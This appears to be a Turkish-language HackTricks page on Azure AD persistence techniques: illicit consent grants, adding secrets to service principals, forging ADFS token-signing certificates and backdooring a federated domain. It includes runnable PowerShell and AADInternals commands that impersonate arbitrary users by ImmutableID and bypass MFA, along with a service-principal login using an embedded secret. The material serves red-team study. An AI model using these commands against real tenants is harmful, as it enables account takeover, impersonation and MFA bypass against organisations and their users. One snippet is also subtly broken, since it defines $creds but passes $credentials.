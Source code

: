 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Yasadışı İzin Verme

Varsayılan olarak, herhangi bir kullanıcı Azure AD'de bir uygulama kaydedebilir. Bu nedenle, yüksek etki izinlerine ihtiyaç duyan bir uygulamayı (sadece hedef kiracı için) yönetici onayı ile kaydedebilirsiniz (eğer yöneticiyseniz onaylayın) - örneğin, bir kullanıcının adına mail gönderme, rol yönetimi vb. Bu, başarılı olması durumunda çok **verimli** olacak **oltalama saldırıları** gerçekleştirmemizi sağlayacaktır.

Ayrıca, bu uygulamayı kullanıcı olarak kabul ederek ona erişimi sürdürme yolunu da seçebilirsiniz.

### Uygulamalar ve Hizmet Prensipleri

Uygulama Yöneticisi, GA veya microsoft.directory/applications/credentials/update izinlerine sahip özel bir rol ile, mevcut bir uygulamaya kimlik bilgileri (gizli anahtar veya sertifika) ekleyebiliriz.

Yüksek izinlere sahip bir **uygulamayı hedef almak** veya **yüksek izinlere sahip yeni bir uygulama eklemek** mümkündür.

Uygulamaya eklenebilecek ilginç bir rol, **Ayrıcalıklı kimlik doğrulama yöneticisi rolü** olacaktır çünkü bu, Küresel Yöneticilerin **şifresini sıfırlama** yetkisi verir.

Bu teknik ayrıca **MFA'yı atlamayı** da sağlar.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Sertifika tabanlı kimlik doğrulama için
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

On-prem AD üzerinde **DA ayrıcalıkları** ile, çok uzun geçerlilik süresine sahip **yeni Token signing** ve **Token Decrypt sertifikaları** oluşturmak ve içe aktarmak mümkündür. Bu, bildiğimiz herhangi bir kullanıcının ImuutableID'si ile **giriş yapmamıza** olanak tanıyacaktır.

**Yeni sertifikaları oluşturmak için** aşağıdaki komutu **ADFS sunucusunda DA olarak** çalıştırın (varsayılan şifre 'AADInternals'), bunları ADFS'ye ekleyin, otomatik yenilemeyi devre dışı bırakın ve hizmeti yeniden başlatın:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Sonra, sertifika bilgilerini Azure AD ile güncelleyin:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Güvenilir Alan

GA ayrıcalıkları ile bir kiracıda, **yeni bir alan eklemek** mümkündür (doğrulanması gerekir), kimlik doğrulama türünü Federated olarak yapılandırmak ve alanı **belirli bir sertifikaya** (aşağıdaki komutta any.sts) ve vericiye güvenecek şekilde yapılandırmak mümkündür:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referanslar

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
